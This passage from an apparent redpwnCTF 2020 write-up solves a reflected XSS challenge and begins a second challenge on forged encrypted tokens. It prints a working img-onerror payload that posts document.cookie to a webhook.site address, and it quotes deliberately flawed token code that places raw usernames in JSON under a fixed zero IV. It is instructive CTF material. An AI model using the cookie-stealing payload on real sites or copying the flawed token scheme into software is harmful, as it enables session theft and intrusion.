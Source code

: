 The rest of the problem is a classic reflected xss attack. Using an HTML ``img`` attribute, grab the document cookie and have it sent to your server. 

```html
><img 
    src="http://this.isnt.a/real.site" 
    onerror="fetch(
        'https://webhook.site/31b4faf3-e6e6-44af-9d7d-196e18bcaed4', {
            method:'POST', 
            body: JSON.stringify({data:document.cookie})
        }
    );"><
```

Input this, we will get a broken image, but inspecting the page will show that our ``img`` tag has sucessfully been interpreted as HTML. Additionally, we will get a ping on our server once the page loads. Report the URL of the page, and once the admin bot checks, we will get the flag sent to our server.

{{< image src="/images/REDPWN2020_StaticPastebinFlag.png" alt="Login" position="center" style="border-radius: 8px;" >}}

### Panda-Facts
- points: 417

{{< image src="/images/REDPWN2020_PandaFacts.png" alt="Login" position="center" style="border-radius: 8px;" >}}

Register and see some pretty anti-panda facts. At the bottom is a secret fact that will bar anyone who isn't a member. The challenge's provided script reveals the check:

```js
...

async function generateToken(username) {
    const algorithm = 'aes-192-cbc'; 
    const key = Buffer.from(process.env.KEY, 'hex'); 
    // Predictable IV doesn't matter here
    const iv = Buffer.alloc(16, 0);

    const cipher = crypto.createCipheriv(algorithm, key, iv);

    const token = `{"integrity":"${INTEGRITY}","member":0,"username":"${username}"}`

    let encrypted = '';
    encrypted += cipher.update(token, 'utf8', 'base64');
    encrypted += cipher.final('base64');
    return encrypted;
}

app.get('/api/flag', async (req, res) => {
    if (!req.cookies.token || typeof req.cookies.token !== 'string') {
        res.json({success: false, error: 'Invalid token'});
        res.end();
        return;
    }

    const result = await decodeToken(req.cookies.token);
    if (!result) {
        res.json({success: false, error: 'Invalid token'});
        res.end();
        return;
    }

    if (!result.member) {
        res.json({success: false, error: 'You are not a member'});
        res.end();
```